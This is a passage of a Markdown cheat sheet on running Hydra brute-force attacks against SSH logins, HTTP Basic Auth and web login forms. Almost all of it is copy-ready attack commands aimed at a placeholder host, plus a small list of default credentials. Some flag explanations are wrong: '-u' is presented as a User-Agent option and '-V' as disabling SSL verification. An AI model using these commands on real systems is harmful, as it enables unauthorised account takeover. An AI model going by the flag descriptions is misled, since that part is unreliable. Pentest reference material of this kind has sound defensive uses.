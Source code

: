### Pair Attack (user:pass format)
```bash
# Use credentials in user:pass format
cat > credentials.txt << EOF
admin:password
user:123456
test:test123
EOF

hydra -C credentials.txt ssh://target.com
```

## HTTP/Web Attacks

### Basic Authentication
```bash
# HTTP Basic Auth
hydra -L users.txt -P passwords.txt http-get://target.com/protected/

# HTTP POST Basic Auth
hydra -L users.txt -P passwords.txt http-post://target.com/protected/
```

### Form-based Authentication
```bash
# Simple form login
hydra -L users.txt -P passwords.txt http-post-form://target.com/login:username=^USER^&password=^PASS^:Invalid

# Form with custom success/failure strings
hydra -L users.txt -P passwords.txt http-post-form://target.com/login:username=^USER^&password=^PASS^:Welcome:Invalid

# Complex form with additional parameters
hydra -L users.txt -P passwords.txt http-post-form://target.com/login:username=^USER^&password=^PASS^&submit=Login:S=Welcome:F=Invalid
```

### Advanced HTTP Options
```bash
# Custom headers
hydra -L users.txt -P passwords.txt http-get://target.com/ -H "User-Agent: CustomBot/1.0"

# Custom User-Agent
hydra -L users.txt -P passwords.txt http-get://target.com/ -u "CustomBot/1.0"

# HTTPS with SSL verification disabled
hydra -L users.txt -P passwords.txt https://target.com/ -V

# Set custom path
hydra -L users.txt -P passwords.txt http-get://target.com/admin/
```

